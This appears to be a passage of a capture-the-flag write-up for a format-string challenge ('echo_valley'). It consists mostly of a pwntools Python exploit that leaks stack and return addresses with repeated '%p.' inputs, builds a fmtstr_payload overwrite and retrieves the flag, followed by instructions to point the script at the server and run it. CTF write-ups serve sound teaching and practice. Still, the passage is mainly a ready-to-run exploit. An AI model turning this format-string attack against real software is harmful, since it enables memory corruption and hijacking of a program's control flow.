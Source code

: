 ```python
   print(conn.recvline())

def extract_flag(output):
   tokens=output.split()
   last_token=tokens[-1]
   print(last_token)

def extract_values(line):
   global value_to_write
   global target_addr
   tokens=line.split('.')
   ret=int(tokens[-2],16)
   stack=int(tokens[-3],16)
   value_to_write+=ret
   target_addr+=stack


def set_values():
   payload = b'%p.' * 21
   conn.sendline(payload)
   line=conn.recvline()
   extract_values(str(line))

def send_payload():
   global value_to_write
   global target_addr
   offset = 6
   conn.recvline()
   set_values()
   payload = fmtstr_payload(offset, {target_addr: value_to_write},write_size='short')
   conn.sendline(payload)
   conn.recvline
   conn.sendline(b"exit")
   output = conn.recvall()
   extract_flag(output)
      
send_payload()
# find_offset()
```

`find_offset()` is a helper function used to easily find the offset.

The script
- Enters `%p.` 21 times
- Extracts the **stack address** and **return address** from the output
- Subtracts their respective **offsets**
- Constructs the **payload** and sends it
- Enters `exit` to trigger `echo_valley()` to return

## Solution
- Use the above **script**
- Change the server name and port number accordingly.
- Run
